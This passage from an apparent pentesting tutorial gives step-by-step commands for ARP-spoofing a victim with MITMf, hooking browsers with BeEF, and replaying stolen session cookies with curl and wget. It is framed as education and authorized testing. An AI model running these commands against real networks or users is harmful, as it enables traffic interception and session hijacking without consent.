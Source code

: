 ### **Purpose:**
MITMf (Man-in-the-Middle Framework) is used for traffic manipulation and session hijacking.

### **Steps to Use:**
1. **Install MITMf:**
   ```bash
   sudo apt install mitmf
   ```

2. **Perform ARP Spoofing:**
   ```bash
   mitmf --arp --spoof --gateway [gateway_ip] --target [victim_ip]
   ```

3. **Monitor and Inject Traffic:**
   - Use plugins or additional options to manipulate traffic.

---

## 9. BeEF

### **Purpose:**
BeEF (Browser Exploitation Framework) is used to exploit browsers and hijack sessions.

### **Steps to Use:**
1. **Install BeEF:**
   ```bash
   sudo apt install beef-xss
   ```

2. **Start BeEF:**
   ```bash
   beef-xss
   ```

3. **Exploit Browsers:**
   - Use the web interface to control hooked browsers and hijack sessions.

---

## 10. Cookie Analysis and Usage

### **cURL:**
Send requests with stolen cookies:
```bash
curl -b "session_id=value" http://target.com
```

### **Wget:**
Use cookies in HTTP requests:
```bash
wget --header="Cookie: session_id=value" http://target.com
```

---

**Disclaimer:** This document is intended for educational purposes and authorized testing only. Unauthorized use of these tools may violate laws and regulations.

---
